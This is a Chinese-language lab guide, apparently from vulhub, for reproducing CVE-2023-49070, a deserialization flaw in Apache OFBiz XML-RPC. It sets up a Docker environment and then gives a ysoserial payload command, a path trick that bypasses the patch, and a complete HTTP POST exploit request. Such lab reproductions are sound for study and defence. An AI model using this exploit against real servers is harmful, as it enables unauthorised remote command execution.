

# Apache OfBiz 反序列化命令执行漏洞（CVE-2023-49070）

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在Apache OFBiz 17.12.03版本及以前存在一处XMLRPC导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz官方于18.12.10中彻底删除xmlrpc接口修复该漏洞。

参考链接：

- <https://www.openwall.com/lists/oss-security/2023/12/04/2>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.09服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

漏洞复现方式与[CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496)相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```


使用CVE-2020-9496中的复现方法发送数据包，可见已经无法成功进入XMLRPC的解析流程：


把Path修改成`/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y`即可绕过限制：

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```


进入容器中，可见`touch /tmp/success`已成功执行：


